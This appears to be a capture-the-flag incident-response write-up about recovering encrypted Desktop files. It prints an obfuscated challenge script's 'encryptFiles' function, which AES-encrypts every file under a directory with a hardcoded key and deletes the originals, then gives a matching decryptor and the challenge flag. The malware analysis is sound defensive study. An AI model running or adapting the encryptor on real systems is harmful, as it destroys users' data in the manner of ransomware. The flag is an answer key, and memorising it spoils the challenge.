

# IR #5
> Can you please recover our files?

## About the Challenge
We need to recover the files that was encrypted in the `Desktop`

## How to Solve?
If you see the powershell script that we have obfuscated before, you will see there is a function to encrypt the files

```powershell
function encryptFiles{
	Param(
		[Parameter(Mandatory=${true}, position=0)]
		[string] $baseDirectory
	)
	foreach($File in (Get-ChildItem $baseDirectory -Recurse -File)){
		if ($File.extension -ne ".enc"){
			$DestinationFile = $File.FullName + ".enc"
			$FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
			$FileStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)
			$cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
			$cipher.key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")
			$cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
			$cipher.GenerateIV()
			$FileStreamWriter.Write([System.BitConverter]::GetBytes($cipher.IV.Length), 0, 4)
			$FileStreamWriter.Write($cipher.IV, 0, $cipher.IV.Length)
			$Transform = $cipher.CreateEncryptor()
			$CryptoStream = New-Object System.Security.Cryptography.CryptoStream($FileStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
			$FileStreamReader.CopyTo($CryptoStream)
			$CryptoStream.FlushFinalBlock()
			$CryptoStream.Close()
			$FileStreamReader.Close()
			$FileStreamWriter.Close()
			Remove-Item -LiteralPath $File.FullName
		}
	}
}
```

This function will encrypt the files with AES encryption and then writes the encrypted contents to a new file with the `.enc` extension. The original file is then deleted. To solve this problem, we need to create another powershell function to decrypt the file:

```powershell
function decryptFiles {
    Param(
        [Parameter(Mandatory=$true, Position=0)]
        [string] $baseDirectory
    )
    
    foreach($File in (Get-ChildItem $baseDirectory -Recurse -File -Filter "*.enc")){
        $DestinationFile = $File.FullName -replace "\.enc$"
        $FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
        $FileStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)
        
        $cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
        $cipher.Key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")
        $cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
        
        # Read the IV length from the encrypted file
        $ivLengthBytes = New-Object byte[](4)
        $FileStreamReader.Read($ivLengthBytes, 0, 4)
        $ivLength = [System.BitConverter]::ToInt32($ivLengthBytes, 0)
        
        # Read the IV from the encrypted file
        $ivBytes = New-Object byte[]($ivLength)
        $FileStreamReader.Read($ivBytes, 0, $ivLength)
        
        # Set the IV for the cipher
        $cipher.IV = $ivBytes
        
        $Transform = $cipher.CreateDecryptor()
        $CryptoStream = New-Object System.Security.Cryptography.CryptoStream($FileStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
        
        $FileStreamReader.CopyTo($CryptoStream)
        
        $CryptoStream.FlushFinalBlock()
        $CryptoStream.Close()
        $FileStreamReader.Close()
        $FileStreamWriter.Close()
        
        Remove-Item -LiteralPath $File.FullName
    }
}
```

To use this function, you can call it like this:

```
decryptFiles -baseDirectory "C:\path\to\files"
```

So, I decrypt all the encrypted files in `Desktop` and then check the file one by one to obtain the flag.



The flag was located in `Nextgen Innovation.pdf` file


```
flag{593f1527d6b3b9e7da9bdc431772d32f}
```